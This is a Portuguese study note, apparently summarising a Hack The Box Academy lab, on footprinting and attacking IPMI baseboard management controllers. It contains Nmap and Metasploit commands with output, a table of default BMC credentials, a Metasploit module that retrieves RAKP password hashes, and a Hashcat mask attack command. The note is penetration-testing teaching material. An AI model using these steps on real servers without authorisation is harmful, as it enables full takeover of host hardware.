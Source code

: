 [[Redes - IPMI]]

## Footprinting the Service

- **Comunicação:** Utiliza a porta **623 UDP**.
- **Baseboard Management Controllers (BMCs):** São sistemas que implementam o protocolo IPMI, geralmente embarcados com processadores ARM e executando Linux. Eles se conectam diretamente à placa-mãe do host e podem estar integrados ou adicionados via PCI.
- **Servidores e BMCs:** A maioria dos servidores modernos vem com um BMC integrado ou suporta sua adição. Exemplos comuns incluem **HP iLO**, **Dell DRAC** e **Supermicro IPMI**.
- **Acesso e Controle:** Se um BMC for comprometido durante um teste de penetração, o invasor obtém controle total sobre a placa-mãe do host, permitindo monitorar, reinicializar, desligar ou reinstalar o sistema operacional. Isso equivale a ter acesso físico ao sistema.
- **Interfaces de Gerenciamento:** Muitos BMCs oferecem um console de gerenciamento baseado na web, protocolos de acesso remoto como **Telnet** ou **SSH**, além da porta **623 UDP** para o protocolo IPMI.
- **Exemplo de Uso:** Um script Nmap, como o `ipmi-version NSE`, pode ser usado para fazer o footprint de serviços IPMI.

## NMAP
```sh
NycolasES6@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Aqui, podemos ver que o protocolo IPMI está de fato escutando na porta 623, e o Nmap fez fingerprinting da versão 2.0 do protocolo. Também podemos usar o módulo do scanner Metasploit [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/) .

#### Verificação de versão do Metasploit
```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Algumas senhas padrão do IPMI exclusivas para manter em nossas folhas de dicas incluem:

|Produto|Nome de usuário|Senha|
|---|---|---|
|Dell iDRAC|raiz|Calvino|
|HP iLO|Administrador|sequência aleatória de 8 caracteres composta por números e letras maiúsculas|
|Supermicro IPMI|ADMIN|ADMIN|

Também é essencial testar senhas padrões conhecidas para QUALQUER serviço que descobrirmos, pois elas geralmente são deixadas inalteradas e podem levar a ganhos rápidos. Ao lidar com BMCs, essas senhas padrões podem nos dar acesso ao console da web ou até mesmo acesso à linha de comando via SSH ou Telnet.

## Configurações perigosas
Se as credenciais padrão não funcionarem para acessar um BMC, podemos recorrer a uma [falha](http://fish2.com/ipmi/remote-pw-cracking.html) no protocolo RAKP no IPMI 2.0. Durante o processo de autenticação, o servidor envia um hash SHA1 ou MD5 com sal da senha do usuário para o cliente antes que a autenticação ocorra. Isso pode ser aproveitado para obter o hash da senha para QUALQUER conta de usuário válida no BMC.

Esses hashes de senha podem ser quebrados offline usando um ataque de dicionário usando o `Hashcat`modo `7300`. No caso de um HP iLO usar uma senha padrão de fábrica, podemos usar este comando de ataque de máscara Hashcat `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`que tenta todas as combinações de letras maiúsculas e números para uma senha de oito caracteres.

Para recuperar hashes IPMI, podemos usar o módulo Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval .](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)

#### Metasploit Dumping Hashes
```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Aqui podemos ver que obtivemos com sucesso o hash da senha para o usuário `ADMIN`, e a ferramenta foi capaz de quebrá-lo rapidamente para revelar o que parece ser uma senha padrão `ADMIN`. A partir daqui, poderíamos tentar fazer login no BMC ou, se a senha fosse algo mais exclusivo, verificar a reutilização da senha em outros sistemas.

A verificação do IPMI deve fazer parte do nosso manual de teste de penetração interna para qualquer ambiente que estejamos avaliando.

---
## Referências

https://academy.hackthebox.com/module/112/section/1245